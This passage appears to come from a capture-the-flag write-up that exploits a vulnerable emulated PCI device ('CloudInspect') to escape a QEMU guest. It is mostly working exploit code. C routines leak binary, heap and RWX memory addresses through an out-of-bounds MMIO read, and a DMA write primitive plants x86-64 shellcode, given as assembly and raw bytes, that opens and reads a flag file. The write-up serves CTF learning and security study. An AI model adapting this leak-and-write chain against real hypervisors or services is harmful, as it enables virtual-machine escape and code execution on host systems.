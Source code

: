 ```c
// offset I got in gdb locally
uint64_t base = read_offt(0x10c0 + 8*3) - 0xdef90; // heap leak
uint64_t bss = base + 0xbc2000; // points to the anonnymous memory area right after the binary
uint64_t heap_base = read_offt(0x1000 + 8*3) - 0xf3bff0; // useless
uint64_t ops_struct = read_offt(-0xd0); // That's &ClouInspctState.mmio.ops
uint64_t addr_obj = read_offt(-(0xd0-8)) + 2568; // CloudInspectState.mmio.opaque
uint64_t leak_rwx = read_offt((bss + 0x6000) - addr_obj) & ~0xffff; // leak in the bss

printf("[*] ops_struct: %lx\n", ops_struct);
printf("[*] Binary base address: %lx\n", base);
printf("[*] Heap base address: %lx\n", heap_base);
printf("[*] Leak rwx: %lx\n", leak_rwx);
printf("[*] Addr obj: %lx\n", addr_obj);

/*
[*] ops_struct: 559a89173f20
[*] Binary base address: 559a88791000
[*] Heap base address: 559a8a0561d0
[*] Leak rwx: 7fc604000000
[*] Addr obj: 559a8af92f88
*/
```

### Write the shellcode


I choose to write a shellcode to read the flag at `leak_rwx + 0x5000`, a known location we can easily read and print from the program. The shellcode is very simple:

```nasm
mov rax, 2 ; SYS_open
push 0x67616c66 ; flag in little endian
mov rdi, rsp ; pointer flag string
mov rsi, 0 ; O_READ
mov rdx, 0x1fd ; mode ?
syscall
mov rdi, rax ; fd
xor rax, rax ; SYS_read
lea rsi, [rip] ; pointer to the rwx memory area (cause we're executing code within)
and rsi, 0xffffffffff000000 ; compute the base address
add rsi, 0x5000 ; add the right offset
mov rdx, 0x30 ; length of the flag to read
syscall
add rsp, 8; we pushed the flag str so we destroy it
ret ; return to continue the execution
```

To write the shellcode at `leak_rwx + 0x1000`, we can directly trigger a large write primitive:

```c
#define CODE "\x48\xc7\xc0\x02\x00\x00\x00\x68\x66\x6c\x61\x67\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\xfd\x01\x00\x00\x0f\x05\x48\x89\xc7\x48\x31\xc0\x48\x8d\x35\x00\x00\x00\x00\x48\x81\xe6\x00\x00\x00\xff\x48\x81\xc6\x00\x50\x00\x00\x48\xc7\xc2\x30\x00\x00\x00\x0f\x05\x48\x83\xc4\x08\xc3"

memcpy(dmabuf, CODE, 130);

printf("[*] Writing the shellcode @ %lx\n", leak_rwx + 0x1000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, leak_rwx - addr_obj + 0x1000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 130);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
/*
[*] Writing the shellcode @ 7fc604001000
*/
```